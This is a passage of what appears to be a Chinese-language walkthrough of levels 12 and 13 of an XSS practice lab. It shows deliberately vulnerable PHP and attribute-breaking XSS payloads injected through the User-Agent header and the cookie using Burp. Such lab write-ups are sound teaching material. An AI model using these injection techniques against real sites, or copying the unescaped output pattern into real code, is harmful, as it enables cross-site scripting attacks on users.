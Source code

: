 `str11=_SERVER['HTTP_USER_AGENT'];`,  `User-Agent`的http头部注入.

burp抓包, 构造http头部User-Agent的payload:
```
User-Agent: " onmouseover=alert(1) type="text"

User-Agent: " onclick="alert(1) type="text"
```
forward发包


<br />

# level 13

部分源代码:
```php
<?php 
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

`setcookie("user", "call me maybe?", time()+3600);`, 应该是cookie类型的xss注入

payload:
```
Cookie: " onmouseover=alert(1) type="text"

Cookie: " onclick="alert(1) type="text"
```

burp抓包, 改cookie, forward发包

完整的cookie为:
```
Cookie: user=call+me+maybe%3F " onmouseover=alert(1) type="text"
```

<br />

# level 14

